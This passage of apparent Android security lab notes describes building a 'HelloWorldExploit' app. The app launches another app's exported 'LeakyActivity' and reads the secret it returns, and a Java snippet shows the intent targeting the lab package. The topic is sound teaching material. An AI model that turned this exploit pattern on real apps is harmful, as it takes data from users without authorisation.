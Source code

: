 ![](androidassets/image-20240111165221915.png)



Create the application `#2`.

- Opening the lab source code of the `HelloWorldExploit` app

  - launch `LeakyActivity` using `startActivityForResult()`

  - override the `onActivityResult` to extract the result `LeakActivity` returns

```java
static final int PICK_REQUEST = 1;  // The request code

@Override
protected void onCreate(Bundle savedInstanceState) {
	super.onCreate(savedInstanceState);

	Intent pickSecretIntent = new Intent();
	pickSecretIntent.setComponent(new ComponentName("com.elearnsecurity.insecureactivities", "com.elearnsecurity.insecureactivities.LeakyActivity"));
	startActivityForResult(pickSecretIntent, PICK_REQUEST);

	setContentView(R.layout.activity_hello_world);
}
```
